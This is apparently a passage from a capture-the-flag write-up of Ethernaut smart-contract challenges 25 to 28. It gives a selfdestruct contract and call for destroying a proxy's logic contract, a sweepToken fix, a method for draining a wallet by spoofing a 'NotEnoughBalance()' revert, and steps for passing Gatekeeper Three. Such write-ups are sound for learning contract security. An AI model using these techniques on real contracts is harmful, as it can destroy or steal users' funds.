 Then create custom contract to execute selfdestruct
Deploy malicious contract, use selfdestruct to destroy logic contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Destroyer {
    function destroy(address payable target) external {
        selfdestruct(target);
    }
}
```

Call destroy function, targeting logic contract address:
```javascript
await destroyerContract.methods.destroy(logicAddress).send({ from: player });
```

## 26. DoubleEntryPoint ✅[Easy]

Just call sweepToken(LGT) through intermediary contract, for fix:
```solidity
function sweepToken(IERC20 token) external onlyOwner {
    require(address(token) != address(det), "Can't sweep DET tokens");
    require(address(token) != address(legacyToken), "Can't sweep LegacyToken");
    token.transfer(owner(), token.balanceOf(address(this)));
}

## 27. Good Samaritan ✅[Easy]

This challenge directly finds Inotify that can be exploited, and another point is exploiting
```solidity
catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                ...
            }
        }
```
This directly catches corresponding error and transfers all remaining tokens, and before transferring doesn't check if amount is actually <10, so can exploit by returning corresponding err (revert("NotEnoughBalance()")) when implementing notify earlier, then can get all remaining tokens transferred

## 28. Gatekeeper Three ✅[Medium]

Strategy:
- Call constructor to set owner to your address.
- Call createTrick to create SimpleTrick instance.
- Find SimpleTrick contract's password.
- Call getAllowance(password) to set allowEntrance to true.
- Ensure contract balance greater than 0.001 ether, and set owner address to contract that cannot receive ether.
- Call enter function through proxy contract to bypass gateOne check.
- Successfully set entrant.
